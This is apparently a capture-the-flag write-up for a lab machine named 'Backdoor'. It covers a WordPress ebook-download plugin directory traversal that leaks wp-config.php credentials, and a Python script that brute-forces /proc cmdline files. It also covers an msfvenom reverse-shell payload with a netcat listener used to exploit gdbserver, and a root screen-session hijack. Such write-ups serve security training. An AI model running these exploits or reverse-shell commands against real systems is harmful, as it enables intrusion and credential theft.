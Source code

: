# Backdoor

**Port scan**
```
22/open tcp ssh
80/open tcp http
1337 open tcp waste
```
## Port 80 - Wordpress

Navigating to the website redirects to `backdoor.htb`, so add it to `/etc/hosts`

`echo "10.129.96.68 backdoor.htb" | sudo tee -a /etc/hosts`

Checking for accesible directories:
- /wp-content/plugins allows directory listing

Find the ebook-download plugin and its readme where it says `Stable tag`: `1.1`
- /wp-content/plugins/ebook-download/readme.txt

### Directory transversal
Search for vulnerability exploit and found
```powershell
Foothold
Now, as we have the version info for the plugin, we could try doing a simple Google search to check for any
available exploits for this plugin version.
Sure enough, we landed on a Directory Traversal Exploit for this plugin.
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7
[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================
[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
=====================================
```
#### Testing the exploit
`http://10.129.96.68/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

```
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' ); x
```

## Port 1337
Coming back to the port 1337, any attempt to use telnet or netcat to connect to the port are unsuccesful.

We are able to LFI to we can try to read the process information. Lets brute force the `/proc/{PID}/cmdline` file.

```python
import requests
for i in range(1, 1000):
    r = requests.get("http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"+str(i)+"/cmdline")
    out = (r.text.replace('/proc/' + str(i) + '/cmdline','').replace('<script>window.close()</script>','').replace('\00',' '))
    if len(out) > 1:
        print("PID"+str(i) + " : " + out)
```

Analyze the output of the files and find the desired 1337 port.

`853/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done`

So... the port is a gdb server!!

### Exploit
Search the internet and find gdb version 9.2 RCE exploit.

Let's first generate our shellcode:
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=1338 PrependFork=true -o rev.bin
```

Start a listener on port 1338
```shell
nc -nlvp 1338
```

Run the exploit:
```shell
python3 gdb_rce.py 10.129.96.68:1337 rev.bin
```

Now we have access to `user`. Normalize the shell.

## Privilege Escalation
List process with `ps -ef`. 

There is a process that is creating a `screen` process in a do-while loop.

```
PID971 : /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done 
PID973 : /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
```

Lets try t find the screen file:
- `find /var/run/screen/S-root -empty -exec screen -dmS root ;`

Easy, just attach to the screen.

```
screen -x root/root
```
